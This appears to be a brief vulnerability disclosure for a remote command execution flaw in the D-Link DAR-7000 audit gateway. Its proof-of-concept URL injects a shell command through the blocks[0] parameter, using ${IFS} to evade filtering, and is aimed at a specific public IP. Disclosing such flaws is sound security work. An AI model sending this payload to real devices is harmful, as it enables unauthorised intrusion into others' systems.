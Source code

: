 The D-LINK DAR-7000 series online behavior audit gateway has a RCE vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official： http://www.dlink.com.cn/

version:DAR-7000

Vulnerability Path ：/view/IPV6/naborTable/static_convert.php

poc:
https://61.183.231.22:9090/view/IPV6/naborTable/static_convert.php?blocks[0]=||%20 `sleep${IFS}3`
<img width="616" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/068fb43f-577e-4f75-936b-a4756a506b77">
